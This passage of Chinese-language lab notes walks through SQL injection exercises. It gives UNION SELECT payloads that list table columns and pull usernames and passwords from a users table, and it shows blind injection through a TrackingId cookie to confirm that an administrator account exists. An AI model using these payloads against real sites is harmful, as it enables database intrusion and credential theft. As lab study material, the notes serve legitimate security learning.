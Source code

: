 获取表中列的详细信息

```sqlite
'+UNION+SELECT+column_name,NULL+FROM+all_tab_columns+WHERE+table_name='USERS_JHSOTO'--
```

获取数据

```sqlite
'+UNION+SELECT+USERNAME_VZAVSA,PASSWORD_BKEBCS+FROM+USERS_JHSOTO--
```

#### 实验：UNION 攻击，确定查询返回的列数

使用UNION确定返回几列数据

一直加NULL直到页面有响应

```sqlite
'UNION+SELECT+NULL,NULL,NULL--
```

#### 实验：UNION 攻击，查找包含文本的列

先查找返回的列数

然后将字符串插入其中

```sqlite
'UNION+SELECT+NULL,'dyaaqQ',NULL--
```

#### 实验室：UNION 攻击，检索单个列中的多个值

```sqlite
'UNION+SELECT+NULL,username||+'-'+||password+FROM+users--
```

#### 实验：使用条件响应进行盲 SQL 注入

这个题目要求使用提交cookie的值来进行sql盲注

发现cookie有一个`TrackingId`cookie 的请求，当这个请求正确时，会在页面上显示`welcome back`，通过这个来判断输入是否正确

```sqlite
TrackingId='KWpIaXfvVvktP2NS'and 1=1--
```

判断这个是否能进行sql查询，发现可以之后进行sql注入

```sqlite
TrackingId='KWpIaXfvVvktP2NS' and (SELECT 'x' FROM users LIMIT 1) = 'x'--
```

查询有没有users表

```sqlite
TrackingId='KWpIaXfvVvktP2NS' and (SELECT username FROM users WHERE username='administrator' ) = 'administrator'--
```

查询表中是否存在administrator这个列
